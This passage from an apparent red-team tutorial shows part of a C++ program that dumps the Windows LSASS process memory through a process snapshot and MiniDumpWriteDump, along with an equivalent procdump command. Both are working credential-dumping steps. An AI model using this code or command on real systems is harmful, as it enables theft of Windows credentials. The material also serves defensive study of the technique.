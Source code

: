 ```cpp
	BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);

	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}

	PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
	return 0;
}
```

![](../../.gitbook/assets/capture-snapshot-lsass.gif)

Note that this is the way `procdump.exe` works when `-r` flag is specified: 

![procdump help](../../.gitbook/assets/image%20%28332%29.png)

To confirm, if we execute procdump like so:

```text
procdump -accepteula -r -ma lsass.exe lsass.dmp
```
